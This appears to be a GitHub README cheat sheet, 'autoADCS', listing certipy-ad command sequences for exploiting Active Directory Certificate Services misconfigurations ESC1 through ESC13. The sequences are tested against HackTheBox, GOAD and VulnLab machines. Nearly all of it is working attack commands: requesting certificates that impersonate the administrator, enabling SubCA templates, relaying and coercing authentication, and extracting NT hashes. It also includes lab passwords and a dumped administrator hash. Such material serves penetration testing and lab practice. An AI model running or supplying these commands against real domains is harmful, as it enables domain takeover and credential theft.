 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
OR OR OR 
```
certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
```
#### faketime
```
➜  escape ntpdate -q sequel.htb
2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap
```
```
➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
### ESC4
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad template -username khal.drogo@essos.local -password horse -template ESC4 -save-old

certipy-ad req -username khal.drogo@essos.local -password horse -ca ESSOS-CA -target essos.local -template ESC4 -upn administrator@essos.local
```
### ESC6
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad req -username administrator@essos.local -password horse -ca ESSOS-CA -target essos.local -template User -upn administrator@essos.local
```
### ESC7
Tested on https://app.hackthebox.com/machines/572
```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'pass'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'pass'

certipy-ad ca -ca manager-DC01-CA -issue-request 21 -username raven@manager.htb -p 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 21 -username raven@manager.htb -p 'pass'
```
#### faketime
```
ntpdate -q 10.10.11.236

faketime '2024-12-19 08:12:01' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### ESC8
Tested on Ifrit-VulnLab
```
certipy-ad relay -target it-ifrit.vl

coercer coerce -u SQL07$@it-ifrit.vl --hashes :3565f3f4123cfbd6fb880a0978fffc81 -l 10.8.0.158 -t 172.16.41.210 --always-continue

certipy-ad auth -pfx FS02.pfx
```
### ESC9
Tested on https://app.hackthebox.com/machines/Certified
```
certipy-ad req -username ca_operator@certified.htb -p 'Password123@' -ca certified-DC01-CA -template CertifiedAuthentication

certipy-ad account update -username ca_operator@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```
### ESC11
```
certipy-ad relay -target http://10.10.10.10 -ca SubCA
```
### ESC13
Tested on https://app.hackthebox.com/machines/595
```
certipy-ad req -u svc_cabackup -hashes :c9872f1bc10bdd522c12fc2ac9041b64 -ca mist-DC01-CA -template ManagerAuthentication -dc-ip 192.168.100.100 -dns 192.168.100.100 -key-size 4096

python3 gettgtpkinit.py -cert-pfx pfx_file /svc_cabackup ccache_file -dc-ip 192.168.100.100 -
```
